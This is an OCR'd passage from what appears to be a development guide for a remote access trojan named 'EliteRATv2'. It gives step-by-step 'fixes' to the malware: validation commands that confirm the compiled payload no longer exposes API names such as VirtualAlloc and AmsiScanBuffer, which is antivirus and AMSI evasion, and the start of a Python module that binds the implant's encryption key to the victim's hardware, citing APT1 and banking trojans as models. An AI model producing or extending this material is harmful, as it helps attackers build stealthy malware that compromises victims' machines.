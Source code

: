```python
        # ... rest of patching code
```

**Validation:**
```bash
# Verify no GetProcAddress calls remain
grep -r "GetProcAddress" Core/ | grep -v "# " | grep -v api_hashing.py
# Expected: 0 results

# Verify API strings not in binary
strings compiled_payload.exe | grep -i "VirtualAlloc\|AmsiScanBuffer"
# Expected: 0 results
```

---

### FIX #2: Fix Hardcoded Salt (CRITICAL SECURITY ISSUE)

**File to Fix:** `Core/crypto_system.py`  
**Line:** 73  
**Research:** NIST SP 800-132

**Current (INSECURE):**
```python
salt=b'EliteRATv2',  # SAME FOR ALL INSTALLATIONS!
```

**Required Implementation:**

**Step 1:** Create `Core/hardware_binding.py`
```python
#!/usr/bin/env python3
"""
Hardware binding for key derivation
Based on NIST SP 800-132 and APT1 techniques
"""

import sys
import hashlib
import ctypes
from ctypes import wintypes

class HardwareID:
    """
    Get unique hardware identifiers
    
    Research:
    - NIST SP 800-132 (unique salt per user/device)
    - APT1 "Comment Crew" - Hardware-bound implants
    - Banking trojans - CPU-bound encryption
    
    Binds encryption to specific hardware
    """
    
    def get_hardware_id(self) -> str:
        """
        Get composite hardware ID
        Combines: CPU ID + Disk Serial + MAC + BIOS UUID
        """
        ids = []
        
        if sys.platform == 'win32':
            ids.append(self._get_cpu_id_windows())
            ids.append(self._get_disk_serial_windows())
            ids.append(self._get_mac_address_windows())
            ids.append(self._get_bios_uuid_windows())
```